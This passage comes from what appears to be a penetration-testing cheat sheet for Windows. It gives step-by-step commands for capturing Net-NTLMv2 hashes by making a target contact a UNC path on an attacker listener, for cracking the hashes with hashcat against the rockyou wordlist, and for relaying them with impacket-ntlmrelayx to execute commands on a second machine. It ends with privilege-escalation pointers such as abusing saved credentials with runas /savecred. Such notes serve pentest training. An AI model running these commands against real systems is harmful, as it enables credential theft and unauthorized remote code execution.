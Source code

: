     * **From a Web App**: If there's a feature that processes UNC paths (e.g., file upload, avatar from URL), provide a path to your listener.

    ```sh
    \\<your_ip>\share\nonexistent.pdf
    ```


3. **Capture the Hash**: Responder will capture the challenge-response exchange. The hash will look something like this:

    ```sh
    [SMB] NTLMv2-SSP Hash Captured: user::domain:challenge:response_hash
    ```

4. **Crack the Hash**: Use a tool like Hashcat with mode 5600 to crack the captured hash offline.

    ```sh
    hashcat -m 5600 ntlmv2.hash /usr/share/wordlists/rockyou.txt
    ```

---

### Relaying Net-NTLMv2

This technique is used when you have captured a user's Net-NTLMv2 hash but cannot crack it. The core idea is to forward this hash to another machine for authentication, hoping the user has administrative privileges on that target machine.

{{< hint style=warning >}}
**Requirement**: The success of this attack against a user who is not the default local Administrator depends on UAC Remote Restrictions being disabled on the target machine.
{{< /hint >}}

1. **Setup (on Attacker Machine)**: Use `impacket-ntlmrelayx` to listen for a connection and relay it to the target, executing a command upon success.

    ```sh
    impacket-ntlmrelayx -t [Target_2_IP] -c "[Command_to_Execute]" -smb2support
    ```

2. Trigger (on Source Machine: TARGET_1)

    ```sh
    ls \\<your_ip>\share
    ```

3. Relay (by Attacker Machine)

    The `ntlmrelayx` tool intercepts the authentication attempt from TARGET_1. It does not authenticate it. Instead, it forwards (relays) the hash to the specified target, TARGET_2.

4. Execution (on Target Machine: TARGET_2)

    TARGET_2 receives the relayed authentication request and validates the TARGET_2_admin hash. 

    **IF** TARGET_2_admin is a local administrator **AND** UAC remote restrictions are disabled, the authentication succeeds. TARGET_2 then executes the payload supplied by `ntlmrelayx` in Step 1.


---

## Other

* Saved Windows Credentials
  * cmdkey /list
  * runas /savecred /user:admin cmd.exe
* Scheduled Tasks
* Insecure Permissions on Service Executable
* Insecure Service Permissions
* Windows Privileges
* Unpatched Software
